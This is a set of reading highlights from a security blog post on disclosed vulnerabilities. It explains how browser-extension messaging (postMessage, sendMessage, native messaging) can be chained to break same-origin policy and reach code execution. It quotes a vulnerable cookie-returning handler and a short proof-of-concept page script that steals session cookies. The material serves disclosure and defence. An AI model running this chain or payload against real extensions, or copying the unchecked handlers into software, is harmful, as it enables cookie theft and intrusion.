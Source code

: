 ```yaml
---
author: Spaceraccoon's Blog
aliases:
  - Universal Code Execution by Chaining Messages in Browser Extensions
tags:
  - readwise/articles
url: https://spaceraccoon.dev/universal-code-execution-browser-extensions/
date: 2024-08-21
---
```

# Universal Code Execution by Chaining Messages in Browser Extensions

![rw-book-cover](https://spaceraccoon.dev/images/31/browser-extension-message-chain.png)

## Highlights


> By chaining various messaging APIs in browsers and browser extensions, I demonstrate how we can jump from web pages to “universal code execution”, breaking both [Same-origin policy (SOP)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Same-origin%20policy%20(SOP).md) and the browser sandbox. I provide two new vulnerability disclosures affecting millions of users as examples. In addition, I demonstrate how such vulnerabilities can be discovered at scale with a combination of large dataset queries and static code analysis.
> [View Highlight](https://read.readwise.io/read/01j5tgqy922ga0426vxxd4swcd)


> As observed by Arseny Reutov as early as 2017 in [“PostMessage Security in Chrome Extensions”](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon_PostMessage_Security_in_Chrome_Extensions.pdf), there’s a way to relay messages from a web page all the way to native applications, and not much has improved since then.
> [View Highlight](https://read.readwise.io/read/01j7gdxejct01wk17am7akvqbs)



## Content Scripts Message Passing

>  Often, browser extensions need to execute JavaScript in the context of the page a user is visiting. For example, a browser may modify the document object model (DOM) of a page. These extensions must declare *content scripts* in their [`manifest.json` file](https://developer.chrome.com/docs/extensions/develop/concepts/content-scripts), for example:
> ```json
> 	 "content_scripts": [
> 	 {
> 	 "js": [
> 	 "js/contentscript.js"
> 	 ],
> 	 "matches": [
> 	 "http://*/*",
> 	 "https://*/*"
> 	 ],
> 	 "all_frames": true
> 	 }
> 	 ]
>  ```
>  In this case, the `js/contentscript.js` script in the extension will be injected into all frames in any pages matching the pattern.
> [View Highlight](https://read.readwise.io/read/01j7gdzzfsm72vsg9xtaxn868v)



> This is of course an extremely powerful capability, which is why content scripts are placed in [private execution environments called “isolated worlds”](https://developer.chrome.com/docs/extensions/develop/concepts/content-scripts#isolated_world), greatly limiting the damage that could occur if, for example, a DOM XSS exists in a content script. Content scripts cannot access JavaScript variables on the web page or other injected content scripts and operate within a separate [default content security policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy#default_content_security_policy) which prevents inline JavaScript execution.
> [View Highlight](https://read.readwise.io/read/01j7ge0tf1ak2dxvyrvvfzgq7k)



> n order to execute more complex functionality beyond modifying the page DOM, a content script must pass messages to its extension’s *background script* or *service worker* that run in a [separate page context](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Background_scripts#dom_apis). One common pattern is that these background scripts act as event handlers to messages passed from content scripts which contain information about loaded web pages.
> [View Highlight](https://read.readwise.io/read/01j7ge23cj5qy1adfp295z1x3f)



> One common method is via [`chrome.runtime.sendMessage()`](https://developer.chrome.com/docs/extensions/develop/concepts/messaging)
> [View Highlight](https://read.readwise.io/read/01j7ge2e8nqsbybtea2kvwwvc0)



> While cross-extension messaging is possible, most extensions only allow message passing between their own content scripts and background scripts. Unfortunately, as hinted earlier, there are many ways in which malicious web pages can barge into this conversation.
> [View Highlight](https://read.readwise.io/read/01j7ge3naewdfaemq1v5kd508g)



## `postMessage()` to `sendMessage()`

>  One common vulnerable pattern in extension content scripts is lack of origin validation in `postMessage` handlers.
> [View Highlight](https://read.readwise.io/read/01j7ge3ya6kftcyw776pxtf0k8)



> `postMessage` is a separate messaging mechanism from `sendMessage`, often used for cross-window/tab messaging by web pages, not extensions. [^1]
> [View Highlight](https://read.readwise.io/read/01j7ge480e1gk1zpn1ny69zdbz)



> consider a simple use case in which a web page wants to check the version of the extension. Recall that content scripts operate in an isolated world and cannot access JavaScript variables in the web page they are embedded in. However, content scripts still share access to the page’s DOM and can thus receive `postMessage` messages.
> [View Highlight](https://read.readwise.io/read/01j7ge6agc941dhdbgarbyn9ac)



> ![](https://spaceraccoon.dev/images/31/browser-extension-message-chain.png)
> [View Highlight](https://read.readwise.io/read/01j7ge7ye84h1yfysjm7syyytk)



## Breaking [Same-origin policy (SOP)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Same-origin%20policy%20(SOP).md)

>  By exploiting the trust boundary between content scripts and background scripts, malicious web pages can easily break Same Origin Policy protections using the expanded capabilities of a vulnerable extension.
> [View Highlight](https://read.readwise.io/read/01j7ge97n57q9cf0eryqqmk5e3)



> example is “Extension A” with 300,000 users which “provides enhanced user experience” for `https://website-a.com`. However the extension manifest injects content scripts on every page, not just `https://website-a.com`:
>```js
>  "content_scripts": [
>  {
>  "js": [
>  "js/jquery-3.2.1.min.js",
>  "js/contentscript.js",
>  ],
>  "matches": [
>  "http://*/*",
>  "https://*/*"
>  ],
>  "all_frames": true
>  }
>  ```
>  In addition, the extension has permissions to access the cookies of multiple other origins:
>```js
>  "permissions": [
>  "cookies",
>  "webRequest",
>  "webRequestBlocking",
>  "https://website-a.com/*",
>  "https://website-b.com/*",
>  "https://*.website-c.com/*"
>  ]
>```
>  Utilising the same embedding page commuication pattern, the background script accepts the following message type that simply returns all cookies for the requested domain:
>```js
>  chrome.runtime.onMessage.addListener(function(a, b, c) {
>  switch (a.Action) {
>  // ...
>  case "GETCOOKIE":
>  GetCookie(a, b.tab.id);
>  break;
>  // ...
>  function GetCookie(a, b) {
>  chrome.cookies.getAll({
>  domain: a.URL
>  }, function(c) {
>  var d = [];
>  $(c).each(function() {
>  d.push({
>  name: this.name,
>  value: this.value,
>  domain: this.domain,
>  secure: this.secure,
>  path: this.path
>  })
>  });
>  a.Data = JSON.stringify(d);
>  SendMessage("ONRESULT", a, b)
>  })
>  }
>```
>  Therefore, any webpage from any domain that includes the following script can trigger the extension to return session cookies from the whitelisted domains back to the page:
>```js
>  function runPoc() { 
>  const payload = {
>  Action: "GETCOOKIE",
>  background: true,
>  URL: "website-a.com"
>  }
>  window.postMessage(payload, '*'); 
>  }
>  setTimeout(runPoc, 1000)
>```
> [View Highlight](https://read.readwise.io/read/01j7geb8se4geqq4r5d52awc3s)

## RCE

> to go beyond existing research and web-only impact, we can turn to another browser extension capability: native messaging. This allows background scripts to communicate with *native applications* running on the host operating system itself.
> [View Highlight](https://read.readwise.io/read/01j7gec1bbhdfeky57j3ged4bq)



> These native applications must declare a *native messaging host manifest file* that is then referenced by the browser when starting the application.
>```json
>  {
>  "name": "com.my_company.my_application",
>  "description": "My Application",
>  "path": "C:\\Program Files\\My Application\\chrome_native_messaging_host.exe",
>  "type": "stdio",
>  "allowed_origins": ["chrome-extension://knldjmfmopnpolahpmmgbagdohdnhkik/"]
>  }
>```
>  Once started, the browser will handle passing messages from the extension to the process specified by `path` using `stdin` and `stdout`. The background script can then send a message using `chrome.runtime.sendNativeMessage()`:
>```js
>  chrome.runtime.sendNativeMessage(
>  'com.my_company.my_application',
>  {text: 'Hello'},
>  function (response) {
>  console.log('Received ' + response);
>  }
>  );
>```
> [View Highlight](https://read.readwise.io/read/01j7gecyfbxwgsk0e4qz3qrd2t)



> Meanwhile, the native application can handle the `stdin` message any way it wants - sometimes dangerously.
> [View Highlight](https://read.readwise.io/read/01j7gedkbpw190a3q0ghz12z4n)



> We thus have a complete chain for universal code execution:
>  1. Browser extension has a wildcard pattern for content script.
>  2. Content script passes `postMessage` messages to the background script using `sendMessage`.
>  3. Background script passes the message to native application using `sendNativeMessage`.
>  4. Native application handles the message dangerously, leading to code execution.
>  ![](https://spaceraccoon.dev/images/31/native-message-chain.png)
> [View Highlight](https://read.readwise.io/read/01j7gedr2q43v6qj88c6cx239a)

[^1]: [PostMessage and EventListener](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md#PostMessage%20and%20EventListener)
